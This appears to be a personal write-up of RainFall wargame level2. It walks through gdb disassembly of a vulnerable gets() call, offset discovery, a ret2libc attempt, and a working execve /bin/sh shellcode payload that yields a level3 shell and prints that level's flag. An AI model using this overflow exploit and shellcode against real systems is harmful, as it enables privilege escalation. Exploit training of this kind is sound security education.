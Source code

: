 level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc     
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2      
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass       
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile

level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:      
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp       
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   ;call
   0x08048545 <+6>:     call   0x80484d4 <p>   
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax        
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax      
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>  
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax        
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)       
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax       
   0x080484fb <+39>:    and    $0xb0000000,%eax      
   0x08048500 <+44>:    cmp    $0xb0000000,%eax      
   0x08048505 <+49>:    jne    0x8048527 <p+83>      
   0x08048507 <+51>:    mov    $0x8048620,%eax       
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx       
   0x0804850f <+59>:    mov    %edx,0x4(%esp)        
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt> 
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax      
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>  
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax      
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
(gdb)


Instruction 0x080484ed: call 0x80483c0 <gets@plt> est problématique. La fonction gets est connue pour être vulnérable aux débordements de tampon car elle ne limite pas la quantité de données entrées par l'utilisateur. L'adresse de destination pour gets est stockée dans un emplacement à -0x4c(%ebp).

Instructions 0x080484fb - 0x08048505: Il y a une vérification sur la valeur d'une variable stockée à l'adresse -0xc(%ebp). Si cette valeur commence par 0xb0000000, le programme exécute un printf avec un message stocké à l'adresse 0x8048620 et termine le programme via _exit.

Instructions restantes: Si la vérification échoue, les données stockées sont affichées via puts, puis copiées avec strdup.

En envoyant une chaîne via gets, l'attaquant pourrait écraser la pile pour rediriger l'exécution du programme, potentiellement en profitant de la vérification des adresses ou en forçant l'exécution d'une séquence malveillante.

we can execute the commande system("/bin/sh")

---------------------------------------------------

if we cant find the system function we can search it on the libc
level2@RainFall:~$ ldd ./level2 
        linux-gate.so.1 =>  (0xb7fff000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
        /lib/ld-linux.so.2 (0x80000000)
      
level2@RainFall:~$ gdb -q /lib/i386-linux-gnu/libc.so.6
Reading symbols from /lib/i386-linux-gnu/libc.so.6...(no debugging symbols found)...done.
(gdb) p system
$1 = {<text variable, no debug info>} 0x3f060 <system>

(gdb) find 0xb7e4000, +9999999, "/bin/sh"


----

----------------
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? () 
##-> register 80

## find system
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
## find exit
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>

## find '/bin/sh' in libc
(gdb) info proc map
process 2978
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
         0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
(gdb) x/s 0xb7f8cc58

0xb7f8cc58: "/bin/sh"

## exploiting

[Padding jusqu'à l'adresse de retour] + [Adresse de system] + [Adresse de exit] + [Adresse de "/bin/sh"]
python -c 'print("A"*80 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")' > input.txt
-----------------
## On change de methode 

level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                       = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
)                                                            = 0xbffff6fc
puts(""
)                                                                                                 = 1
strdup("")                                                                                               = 0x0804a008
je vais passer par un shellcode attaque
https://www.exploit-db.com/exploits/39160


\x6a\x0b       ; push byte +0xb          ; Push le numéro de l'appel système execve (11) sur la pile
\x58           ; pop eax                 ; Pop la valeur précédemment poussée (0xb) dans le registre EAX
\x99           ; cdq                     ; Convertir DWORD en double (EAX est déjà 0x0000000b, CDQ étend le signe dans EDX)
\x52           ; push edx                ; Push EDX (qui est 0) sur la pile (argument pour envp = NULL)
\x68\x2f\x2f\x73\x68 ; push 0x68732f2f   ; Push la chaîne "//sh" sur la pile
\x68\x2f\x62\x69\x6e ; push 0x6e69622f   ; Push la chaîne "/bin" sur la pile
\x89\xe3       ; mov ebx, esp            ; Déplacer l'adresse de la chaîne "/bin//sh" dans EBX (premier argument pour execve)
\x31\xc9       ; xor ecx, ecx            ; Mettre ECX à 0 (second argument pour execve, argv = NULL)
\xcd\x80       ; int 0x80                ; Appel système (interruption logicielle pour exécuter l'appel système)

on genere un paterne pour le buffer overflow https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

```
level2@RainFall:~$ gdb -q ./level2 
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

```

0x37634136 pointe sur l offset 80 

je genere un patterne shellcode + 80 - (len shellcode) * 'A' + addresse de retour  
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > input.txt 
level2@RainFall:~$ cat input.txt - | ./level2

level2@RainFall:~$  cat input.txt - | ./level2
j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
pwd
/home/user/level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02